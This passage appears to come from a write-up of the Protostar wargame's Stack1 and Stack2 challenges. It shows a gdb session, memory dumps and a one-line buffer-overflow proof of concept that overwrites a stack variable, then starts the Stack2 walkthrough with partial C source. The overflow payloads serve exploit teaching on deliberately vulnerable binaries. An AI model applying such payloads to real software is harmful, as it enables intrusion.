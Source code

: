 I put 2 arrows in the output of **x/20xw $esp** command above.

*First*: Stands for the starting point of our input.

*Target*: Stands for the target place that we want to manipulate.

Our offset length will be = Target-First = 64


#### 2.3 PoC in gdb-peda:

```nasm
gdb-peda$ r $(python2 -c 'print "\x90"*64 + "\x64\x63\x62\x61"')

gdb-peda$ print modified
$1 = 0x61626364

gdb-peda$ x/wx $ebp-0x1c
0xffffd0ec:	0x61626364

gdb-peda$ x/20xw $esp
0xffffd0a0:	0x00000000	0x00000000	0xf7ffd000	0x90909090
0xffffd0b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd0c0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd0d0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd0e0:	0x90909090	0x90909090	0x90909090	0x61626364

gdb-peda$ c
Continuing.
you have correctly got the variable to the right value
[Inferior 1 (process 8471) exited normally]
Warning: not running
```

#### 2.3 Final PoC

```bash
$ ./1 `python2 -c 'print "\x90"*64 + "\x64\x63\x62\x61"'` 
you have correctly got the variable to the right value
```

## Protostar-Stack2 Solution

### 1. Introduction

This is a poc solution for the "Stack2" challenge of Protostar. It's short and hopefully it's easy for everyone who wants to have a look.

Source:
[https://web.archive.org/web/20170419023252/https://exploit-exercises.com/protostar/stack2/](https://web.archive.org/web/20170419023252/https://exploit-exercises.com/protostar/stack2/) 

**Hints:**
* Stack2 looks at environment variables, and how they can be set.

#### 1.1 Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

```